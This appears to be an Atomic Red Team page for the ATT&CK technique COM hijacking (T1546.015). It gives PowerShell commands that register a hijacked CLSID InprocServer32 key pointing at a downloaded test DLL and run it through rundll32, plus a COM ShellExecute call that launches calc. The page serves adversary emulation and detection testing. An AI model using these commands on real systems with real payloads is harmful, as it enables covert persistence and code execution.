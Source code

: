 # T1546.015 - Component Object Model Hijacking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/015)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by hijacked references to Component Object Model (COM) objects. COM is a system within Windows to enable interaction between software components through the operating system.(Citation: Microsoft Component Object Model)  References to various COM objects are stored in the Registry. 

Adversaries can use the COM system to insert malicious code that can be executed in place of legitimate software through hijacking the COM references and relationships as a means for persistence. Hijacking a COM object requires a change in the Registry to replace a reference to a legitimate system component which may cause that component to not work when executed. When that system component is executed through normal system operation the adversary's code will be executed instead.(Citation: GDATA COM Hijacking) An adversary is likely to hijack objects that are used frequently enough to maintain a consistent level of persistence, but are unlikely to break noticeable functionality within the system as to avoid system instability that could lead to detection. </blockquote>

## Atomic Tests

- [Atomic Test #1 - COM Hijacking - InprocServer32](#atomic-test-1---com-hijacking---inprocserver32)

- [Atomic Test #2 - Powershell Execute COM Object](#atomic-test-2---powershell-execute-com-object)


<br/>

## Atomic Test #1 - COM Hijacking - InprocServer32
This test uses PowerShell to hijack a reference to a Component Object Model by creating registry values under InprocServer32 key in the HKCU hive then calling the Class ID to be executed via rundll32.exe.

Reference: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/

**Supported Platforms:** Windows


**auto_generated_guid:** 48117158-d7be-441b-bc6a-d9e36e47b52b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| clsid_threading | Threading Model | string | Apartment|
| dllpath | Path to the DLL. | String | $env:TEMP&#92;AtomicTest.dll|
| clsid | Class ID to hijack. | string | {B5F8350B-0548-48B1-A6EE-88BD00B4A5E7}|
| clsid_description | Description for CLSID | string | MSAA AccPropServices|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Value '#{clsid_description}'
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Value #{dllpath}
New-ItemProperty -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Name 'ThreadingModel' -Value '#{clsid_threading}' -PropertyType "String"
Start-Process -FilePath "C:\Windows\System32\RUNDLL32.EXE" -ArgumentList '-sta #{clsid}'
```

#### Cleanup Commands:
```powershell
Remove-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: DLL For testing
##### Check Prereq Commands:
```powershell
if (Test-Path #{dllpath}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/AtomicTest.dll" -OutFile "#{dllpath}"
```




<br/>
<br/>

## Atomic Test #2 - Powershell Execute COM Object
Use the PowerShell to execute COM CLSID object.
Reference: https://pentestlab.blog/2020/05/20/persistence-com-hijacking/

**Supported Platforms:** Windows


**auto_generated_guid:** 752191b1-7c71-445c-9dbe-21bb031b18eb






#### Attack Commands: Run with `powershell`! 


```powershell
$o= [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39"))
$item = $o.Item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
```

#### Cleanup Commands:
```powershell
Get-Process -Name "*calc" | Stop-Process
```





<br/>
